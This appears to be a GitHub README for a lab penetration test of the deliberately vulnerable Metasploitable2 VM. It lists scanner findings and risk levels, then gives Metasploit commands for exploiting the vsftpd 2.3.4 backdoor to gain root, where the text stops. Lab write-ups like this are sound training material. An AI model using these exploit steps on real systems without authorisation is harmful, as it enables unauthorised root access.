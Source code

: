 # Penetration Testing on Metasploitable2

## Overview
This project involves conducting penetration testing on the Metasploitable2 virtual machine using **Kali Linux**. The main objective was to identify and exploit vulnerabilities in web and network services while documenting findings.

## Tools Used
- **Metasploitable2**: A vulnerable Linux VM for penetration testing.
- **Kali Linux**: The attacker machine.
- **Nikto**: Web vulnerability scanner.
- **OpenVAS**: Network vulnerability assessment tool.
- **Metasploit Framework**: Exploitation tool.
- **Nmap**: Network scanner.

## Findings
### **Web Vulnerabilities (Nikto)**
- **Clickjacking** (CWE-1021): Anti-clickjacking X-Frame-Options header missing.
- **Directory Browsing**: Exposes sensitive files.

### **Network Vulnerabilities (OpenVAS)**
- **DistCC Remote Code Execution (CVE-2004-2687)**: Unauthenticated remote command execution.
- **vsftpd 2.3.4 Backdoor (CVE-2011-2523)**: Backdoor allowing root access.
- **OpenSSL MITM Attack (CVE-2014-0224)**: SSL/TLS vulnerability allowing traffic interception.


## 📊 Vulnerabilities Discovered
### 🔍 **Web Vulnerabilities (Nikto Scan)**
| **Vulnerability** | **Description** | **Risk Level** |
|------------------|----------------|---------------|
| **Clickjacking (CWE-1021)** | X-Frame-Options header missing, allowing UI redress attacks. | Medium |
| **Directory Browsing** | Allows browsing of sensitive files that attackers can access. | Medium |

### 🔍 **Network Vulnerabilities (OpenVAS Scan)**
| **Vulnerability** | **CVE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **DistCC Remote Code Execution (RCE)** | CVE-2004-2687 | Attackers can execute arbitrary commands remotely. | High |
| **vsftpd 2.3.4 Backdoor** | CVE-2011-2523 | Backdoor in vsftpd allows unauthorized root access. | Critical |
| **OpenSSL MITM Attack** | CVE-2014-0224 | SSL/TLS vulnerability allowing encrypted traffic interception. | High |

---



## Exploitation Demonstrations
### **1. Exploiting vsftpd 2.3.4 Backdoor**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
whoami  # Confirms root access


